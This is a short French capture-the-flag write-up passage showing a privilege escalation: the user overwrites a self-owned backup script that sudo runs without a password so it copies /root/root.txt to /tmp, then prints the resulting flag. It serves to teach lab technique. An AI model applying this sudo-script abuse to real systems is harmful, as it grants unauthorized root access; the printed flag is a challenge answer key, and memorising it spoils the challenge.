 On a un script backup.sh qui peut exécuté avec sudo sans mot de passe.   

```bash
alex@ubuntu:~$ ls -la /etc/mp3backups/backup.sh 
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh

alex@ubuntu:~$ chmod +w /etc/mp3backups/backup.sh 

alex@ubuntu:~$ echo "cat /root/root.txt > /tmp/powned.txt" > /etc/mp3backups/backup.sh 

alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh 

alex@ubuntu:~$ cat /tmp/powned.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

```

On voit que le script n'a pas les droits écriture mais qu'il appartient à alex.  
Comme le fichier nous appartient on nous donne les droits en écriture.  
On modifie le fichier pour qu'il lise le fichier root.txt et sauvegarde le résultat dans un endroit ou on peut le lire.   
On exécute avec les droits administrateur.  
On lit le flag dans fichier powned.txt.   

La réponse est : flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}   
